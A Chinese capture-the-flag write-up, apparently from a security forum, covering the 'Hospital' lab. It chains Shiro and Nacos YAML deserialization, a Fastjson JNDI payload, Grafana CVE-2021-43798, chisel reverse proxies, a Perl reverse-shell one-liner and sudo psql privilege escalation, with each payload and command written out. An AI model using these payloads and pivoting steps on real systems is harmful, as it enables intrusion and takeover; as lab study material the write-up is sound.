

# 内网打靶—春秋云镜篇 (6) --Hospital - 先知社区

内网打靶—春秋云镜篇 (6) --Hospital

- - -

# 外网打点

## 信息搜集

Fscan 扫描一下

[](https://xzfile.aliyuncs.com/media/upload/picture/20240129173345-7f9bd0ea-be89-1.png)

发现`jsessionid=xxx`，明显的 Shiro 特征，同时发现有`acatuator`泄露。

## 漏洞探测

访问网站，弱口令直接登进行了，但是没啥东西

[](https://xzfile.aliyuncs.com/media/upload/picture/20240129173350-828d2894-be89-1.png)

搞搞 Shiro 漏洞，尝试工具一把梭，寻找下密钥

[](https://xzfile.aliyuncs.com/media/upload/picture/20240129173400-8875f074-be89-1.png)

没找到，呃，总不能是 Shiro721 吧，但确实此时登录过后，有对应的 Cookie，满足爆破的条件了，抱着怀疑的态度进行了爆破。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240129174313-d2080d52-be8a-1.png)

然后同时想起之前的`actuator`泄露，找了找 RCE 相关的，像`env,refresh,gateway`这些接口都没有，然后就到了我们的信息泄露环节了。

之前实战渗透的时候通杀过`heapdump`泄露，所以记忆犹新，这里用的是`heapdump_tool.jar`工具

```plain
java -jar heapdump_tool.jar "heapdump"
```

搜了搜关键词`passowrd`，`shiro`,`key`这些，没有数据库账密也没有泄露 Key，任何发现都没有

[](https://xzfile.aliyuncs.com/media/upload/picture/20240129173419-93e017dc-be89-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240129173423-965e0fb4-be89-1.png)

想着会不会是工具的问题，于是换了一个工具，改用`JdumpSpirder`，[https://github.com/whwlsfb/JDumpSpider/releases](https://github.com/whwlsfb/JDumpSpider/releases)

再次寻找成功发现 ShiroKey

[](https://xzfile.aliyuncs.com/media/upload/picture/20240129173429-99c0ce9e-be89-1.png)

得到密钥`GAYysgMQhG7/CziJlVpR2g==`

## 漏洞利用

接下来使用工具指定密钥梭哈一下。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240129173436-9e19ec46-be89-1.png)

接下来尝试写入内存马

[](https://xzfile.aliyuncs.com/media/upload/picture/20240129173443-a241fd54-be89-1.png)

执行命令

[](https://xzfile.aliyuncs.com/media/upload/picture/20240129173448-a5572190-be89-1.png)

有一些不方便，用冰蝎的反弹 shell 功能弹到 vps 上

## 提权

```plain
find / -user root -perm -4000 -print 2>/dev/null
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240129173455-a992b512-be89-1.png)

发现`vim`，直接猜测一手 flag 位置

```plain
vim /root/flag/flag01.txt
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240129173501-ad1c639a-be89-1.png)

# 内网探测

上线 VIPER

[](https://xzfile.aliyuncs.com/media/upload/picture/20240129173508-b0e40aa0-be89-1.png)

## 信息搜集

上传 Fscan 进行内网网段扫描

```plain
meterpreter > shell -c './fscan -h 172.30.12.5/24'

   ___                              _    
  / _ \     ___  ___ _ __ __ _  ___| | __ 
 / /_\/____/ __|/ __| '__/ _` |/ __| |/ /
/ /_\\_____\__ \ (__| | | (_| | (__|   <    
\____/     |___/\___|_|  \__,_|\___|_|\_\   
                     fscan version: 1.8.3
start infoscan
trying RunIcmp2
The current user permissions unable to send icmp packets
start ping
(icmp) Target 172.30.12.6     is alive
(icmp) Target 172.30.12.5     is alive
(icmp) Target 172.30.12.236   is alive
[*] Icmp alive hosts len is: 3
172.30.12.236:22 open
172.30.12.5:22 open
172.30.12.236:8080 open
172.30.12.5:8080 open
172.30.12.6:445 open
172.30.12.6:139 open
172.30.12.6:135 open
172.30.12.6:8848 open
172.30.12.236:8009 open
[*] alive ports len is: 9
start vulscan
[*] NetBios 172.30.12.6     WORKGROUP\SERVER02            
[*] NetInfo 
[*]172.30.12.6
   [->]Server02
   [->]172.30.12.6
[*] WebTitle http://172.30.12.5:8080   code:302 len:0      title:None 跳转 url: http://172.30.12.5:8080/login;jsessionid=A60E466BB515111EA9813AD488333B5B
[*] WebTitle http://172.30.12.5:8080/login;jsessionid=A60E466BB515111EA9813AD488333B5B code:200 len:2005   title:医疗管理后台
[*] WebTitle http://172.30.12.6:8848   code:404 len:431    title:HTTP Status 404 – Not Found
[*] WebTitle http://172.30.12.236:8080 code:200 len:3964   title:医院后台管理平台
[+] PocScan http://172.30.12.6:8848 poc-yaml-alibaba-nacos 
[+] PocScan http://172.30.12.6:8848 poc-yaml-alibaba-nacos-v1-auth-bypass 
[+] PocScan http://172.30.12.5:8080 poc-yaml-spring-actuator-heapdump-file
```

## 代理搭建

VPS 端

```plain
./chisel server -p 7000 -reverse
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240129173516-b59c070a-be89-1.png)

靶机

```plain
./chisel client 119.3.215.198:7000 R:0.0.0.0:7001:socks
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240129173528-bcf37ed4-be89-1.png)

## 攻击域用户一 (nacos Yaml 反序列化)

### 信息泄露

在 Fscan 扫描结果中发现

```plain
[+] PocScan http://172.30.12.6:8848 poc-yaml-alibaba-nacos 
[+] PocScan http://172.30.12.6:8848 poc-yaml-alibaba-nacos-v1-auth-bypass
```

所以尝试一下用户登录绕过漏洞

[](https://xzfile.aliyuncs.com/media/upload/picture/20240129173536-c1cbf2b0-be89-1.png)

成功获取账密，再尝试写入用户`test`

[](https://xzfile.aliyuncs.com/media/upload/picture/20240129173542-c557b996-be89-1.png)

进行登录

[](https://xzfile.aliyuncs.com/media/upload/picture/20240129173548-c8e7919e-be89-1.png)

成功登录

[](https://xzfile.aliyuncs.com/media/upload/picture/20240129173553-cc24f46e-be89-1.png)

不过这些不足以实现 RCE，后端也没什么东西，搜索相关漏洞发现两个，一个是内存马注入，一个是 Yaml 反序列化。

### 尝试内存马

尝试用工具写入内存马

[](https://xzfile.aliyuncs.com/media/upload/picture/20240129173559-cfa0b65a-be89-1.png)

没写进去，那八成是 Yaml 反序列化了。

### 尝试 Yaml 反序列化攻击

工具利用

[https://github.com/artsploit/yaml-payload/](https://github.com/artsploit/yaml-payload/)

下载之后打成 jar 包

```plain
javac src/artsploit/AwesomeScriptEngineFactory.java
jar -cvf yaml-payload.jar -C src/ .
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240129173606-d3cc4500-be89-1.png)

在 Nacos 发现`dataid`为`db-config`

[](https://xzfile.aliyuncs.com/media/upload/picture/20240129173612-d6e98f68-be89-1.png)

写入到里面，然后 Jar 的路径的话，我们这里需要上传到靶机，因为这个靶机不出网，我们只能让他访问内网上的，所以我们需要先讲 jar 包放到靶机，然后再在靶机上开启 http 服务

[](https://xzfile.aliyuncs.com/media/upload/picture/20240129173618-db05b536-be89-1.png)

这里成功收到回显，说明确实存在 Yaml 反序列化漏洞，但是我们需要改一下`yaml-payload`中的 Java 文件

[](https://xzfile.aliyuncs.com/media/upload/picture/20240129173625-df318860-be89-1.png)

可以看到这里本来是弹计算器的，没啥作用，我们改为添加一个管理员用户的

[](https://xzfile.aliyuncs.com/media/upload/picture/20240129173631-e2617eb4-be89-1.png)

然后改完后再保存再打为 jar 包

```plain
javac src/artsploit/AwesomeScriptEngineFactory.java
jar -cvf yaml-payload.jar -C src/ .
```

同样再上传 jar 包到靶机再打一次

[](https://xzfile.aliyuncs.com/media/upload/picture/20240129173638-e6979d38-be89-1.png)

此时就可以 RDP 连接了

[](https://xzfile.aliyuncs.com/media/upload/picture/20240129174425-fd1782b6-be8a-1.png)

## 攻击域用户二 (Fastjson)

### 信息搜集

Mimikatz 抓下密码发现都是在工作组。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240129173651-ee558db4-be89-1.png)

### 漏洞探测

我们在 Fscan 中还发现另一个存在 Web 服务的

```plain
[*] WebTitle http://172.30.12.236:8080 code:200 len:3964   title:医院后台管理平台
```

访问

[](https://xzfile.aliyuncs.com/media/upload/picture/20240129173658-f291ee7c-be89-1.png)

使用 dirsearch 扫一下目录，发现`docs,examples`这些

[](https://xzfile.aliyuncs.com/media/upload/picture/20240129173704-f60c2554-be89-1.png)

访问`docs`看一下 Tomcat 版本

[](https://xzfile.aliyuncs.com/media/upload/picture/20240129173709-f93e4126-be89-1.png)

这个版本的 Tomcat 存在着文件包含漏洞，如果有上传点就可以实现文件包含进而达到 RCE 目的 (之前一个靶场的思路)。但这里题目描述中提到了`fastjson`，我们抓一下它的包，内容只写一个`{`，如果是 Fastjson，不完整的时候就会出现`Fastjson`

[](https://xzfile.aliyuncs.com/media/upload/picture/20240129173717-fde46dea-be89-1.png)

出现了`Fastjson`，说明确实是`Fastjson`，接下来用 dnslog 探测一下是否存在漏洞

```plain
{"qwq":{"@type":"java.net.Inet4Address","val":"4mmi9n.dnslog.cn"}}
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240129173756-14e4d980-be8a-1.png)

成功收到回显，说明存在 Fastjson 漏洞。

### 漏洞利用

接下来使用工具`jndi_tool.jar`部署恶意类 (在靶机上部署，因为域成员可能不出网)，工具链接[https://github.com/wyzxxz/jndi\_tool](https://github.com/wyzxxz/jndi_tool)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240129173810-1d8411fa-be8a-1.png)

同时在靶机上监听 12345 端口，待会用于接收 shell，然后按如下 Payload 发包

```plain
{
    "a":{
        "@type":"java.lang.Class",
        "val":"com.sun.rowset.JdbcRowSetImpl"
    },
    "b":{
        "@type":"com.sun.rowset.JdbcRowSetImpl",
        "dataSourceName":"rmi://172.30.12.5:1099/Object",
        "autoCommit":true
    }
}
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240129173817-21957176-be8a-1.png)

成功收到 shell，且是 root 权限

[](https://xzfile.aliyuncs.com/media/upload/picture/20240129173823-2528fc4a-be8a-1.png)

## 攻击域用户三 (Grafana+psql)

### 信息搜集

`ifconfig`发现多张网卡

[](https://xzfile.aliyuncs.com/media/upload/picture/20240129173829-289203e0-be8a-1.png)

上传 Fscan 扫一下

[](https://xzfile.aliyuncs.com/media/upload/picture/20240129173834-2bbaa450-be8a-1.png)

```plain
root@web03:/# ./fscan -h 172.30.54.179/24

   ___                              _    
  / _ \     ___  ___ _ __ __ _  ___| | __ 
 / /_\/____/ __|/ __| '__/ _` |/ __| |/ /
/ /_\\_____\__ \ (__| | | (_| | (__|   <    
\____/     |___/\___|_|  \__,_|\___|_|\_\   
                     fscan version: 1.8.3
start infoscan
(icmp) Target 172.30.54.179   is alive
(icmp) Target 172.30.54.12    is alive
[*] Icmp alive hosts len is: 2
172.30.54.179:8009 open
172.30.54.12:22 open
172.30.54.179:22 open
172.30.54.12:3000 open
172.30.54.12:5432 open
172.30.54.179:8080 open
[*] alive ports len is: 6
start vulscan
[*] WebTitle http://172.30.54.179:8080 code:200 len:3964   title:医院后台管理平台
[*] WebTitle http://172.30.54.12:3000  code:302 len:29     title:None 跳转 url: http://172.30.54.12:3000/login
[*] WebTitle http://172.30.54.12:3000/login code:200 len:27909  title:Grafana
```

发现另一个域用户，但是这个不同于之前的网段，因此我们需要搭建多层代理。

### 多层代理搭建

我们的第一层代理是 VPS 作为服务端，外网靶机作为客户端来搭建的，那么我们在搭建第二层的话，以外网靶机作为服务端，然后以域用户二作为客户端，此时就实现了多层代理

```plain
VPS->外网靶机->域用户 2->域用户 3
```

所以接下来直接在外网靶机上搭建服务端，指令如下

```plain
./chisel server -p 7001 --reverse
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240129173842-30baa0d6-be8a-1.png)

再在域用户二上搭建客户端

```plain
./chisel client 172.30.12.5:7001 R:0.0.0.0:7000:socks
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240129173959-5e868714-be8a-1.png)

此时就搭建好了

```plain
外网->119.3.215.198:7001(VPS)->172.30.12.5:7000(域用户二)->172.30.54.12(域用户三)
```

我们改下配置文件

[](https://xzfile.aliyuncs.com/media/upload/picture/20240129174014-673ac4f6-be8a-1.png)

接下来尝试 curl 用户三

[](https://xzfile.aliyuncs.com/media/upload/picture/20240129174028-6fc50154-be8a-1.png)

成功，在`Windows`用`Proxifier`挂上代理链即可

[](https://xzfile.aliyuncs.com/media/upload/picture/20240129174041-777b745a-be8a-1.png)

尝试访问域用户三

[](https://xzfile.aliyuncs.com/media/upload/picture/20240129174052-7e54e676-be8a-1.png)

### 漏洞探测

登录框肯定尝试弱口令，以`admin,admin`成功登入

[](https://xzfile.aliyuncs.com/media/upload/picture/20240129174102-83f516d2-be8a-1.png)

### 漏洞利用

搜索相关漏洞发现`CVE-2021-43798`，使用工具直接提取敏感信息，工具链接[https://github.com/A-D-Team/grafanaExp](https://github.com/A-D-Team/grafanaExp)

```plain
./grafanaExp_linux_amd64 exp -u "xxx"
```

需要注意的是我这里是用域用户二执行的命令，用本机然后通过代理执行经常卡住。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240129174107-8708a622-be8a-1.png)

获取到 PostgreSQL 账密

```plain
postgres:Postgres@123
```

通过 Proxifier 全局代理，使用`Navicat`进行连接

### 数据库连接

[](https://xzfile.aliyuncs.com/media/upload/picture/20240129174116-8c537bc0-be8a-1.png)

查询数据库版本

```plain
select version();
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240129174122-9033b67e-be8a-1.png)

得知数据库为 8.1 版本，接下来改下`root`用户密码

[](https://xzfile.aliyuncs.com/media/upload/picture/20240129174142-9b9bf6ca-be8a-1.png)

搜索相关版本发现

[](https://xzfile.aliyuncs.com/media/upload/picture/20240129174203-a83ea4cc-be8a-1.png)

所以我们这里调用相关命令

[](https://xzfile.aliyuncs.com/media/upload/picture/20240129174209-abe44d98-be8a-1.png)

接下来借助命令执行实现反弹 shell

### 反弹 Shell

这里反弹到我们的域用户二上，因为他和域用户三是在同一网段下的，我们先监听下它的某个端口。

然后在 Navicat 上执行指令如下

```plain
select system('perl -e \'use Socket;$i="172.30.54.179";$p=12345;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};\'');
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240129174217-b0a91c5a-be8a-1.png)

成功反弹 shell，通过`python3 -c 'import pty;pty.spawn("/bin/bash")'`获取交互式 shell

### 提权

但是目前只是普通权限，需要进行提权，通过执行`sudo -l`发现`psql`

[](https://xzfile.aliyuncs.com/media/upload/picture/20240129174223-b48a0f00-be8a-1.png)

参考[https://gtfobins.github.io/gtfobins/psql/](https://gtfobins.github.io/gtfobins/psql/)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240129174228-b74bc8dc-be8a-1.png)

所以接下来登入`psql`

```plain
sudo /usr/local/postgresql/bin/psql
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240129174235-bb45ce1a-be8a-1.png)

```plain
root=# \?
!/bin/bash
#需要输入的就是\? 和!/bin/bash
```

而后即可获取 root 权限，在`root/flag`目录下得到 flag

[](https://xzfile.aliyuncs.com/media/upload/picture/20240129174240-be4d8ec2-be8a-1.png)
